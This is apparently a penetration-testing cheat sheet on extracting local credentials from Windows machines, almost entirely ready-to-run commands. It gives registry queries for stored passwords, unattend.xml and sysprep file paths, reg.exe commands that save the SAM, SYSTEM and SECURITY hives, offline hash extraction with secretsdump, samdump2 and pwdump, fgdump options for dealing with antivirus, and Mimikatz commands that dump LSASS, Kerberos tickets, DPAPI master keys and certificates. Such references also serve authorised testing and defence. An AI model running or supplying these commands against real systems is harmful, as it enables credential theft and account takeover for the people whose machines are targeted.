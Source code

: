 # Local Credentials

## Readable Passwords

### Unattend.xml files

Passwords are stored in Base64

```
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

### Passwords in System Registry

```
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Manual hash dump - All windows versions

### Key retrieval

Administrative privileges are required to dump register keys

```
reg.exe save hklm\sam c:\dp\sam.save
reg.exe save hklm\system c:\dp\system.save
reg.exe save hklm\security c:\dp\security.save
```

Possible backups location

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

### Local decryption

Impacket - secretsdump.py

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

Samdump or Pwdump

```
samdump2 system.save sam.save
pwdump SYSTEM SAM > <file>
```

After obtaining the hashes crack them using `john -format=NT` or Pass The Hash

## fgdump.exe - Windows 2000,XP

Runs locally, creates a file with the hashes.

```
fgdump.exe
fgdump.exe -t    #test for anti-virus presence
fgdump.exe -a    #don't try to disable anti-virus
fgdump.exe -r    #ignore existing dump files
```

## Mimikatz - Windows Vista,7,8,10

Elevate as NT AUTHORITY / SYSTEM

```
privilege::debug
token::whoami
token::elevate
```

### Harvest keys and tickets

```
sekurlsa::logonpasswords     //dump LSASS
sekurlsa::minidump <path>    //dump LSASS as file

kerberos::list /dump         //Kerberos credentials
sekurlsa::tickets            //Kerberos tickets in memory
sekurlsa::ekeys              //Kerberos AES key

lsadump::sam                 //SAM database
lsadump::secrets             //SAM secrets
```

### Harvest credentials

Usual credential files position

```
%appdata%\Microsoft\Credentials\
%localappdata%\Microsoft\Credentials\
%appdata%\Microsoft\Protect\<usersid>\    //master key
```

Decrypt Credentials hashes

```
dpapi::cred /in:"<path to cred hash>"            //get info on hash
dpapi::masterkey /in:"<path to master key>"      //get the master key
dpapi::masterkey /in:"<path to master key>" /rpc //decode the master key by passing it to the DC
dpapi::cache                                     //load the master key in cache
dpapi::cred /in:"<path to cred hash>"            //decrypt credentials using the master key
```

### Harvest certificates and auth keys

```
crypto::listProviders
crypto::listKeys
crypto::listCertificates
crypto::exportCertificates
crypto::exportKeys
```
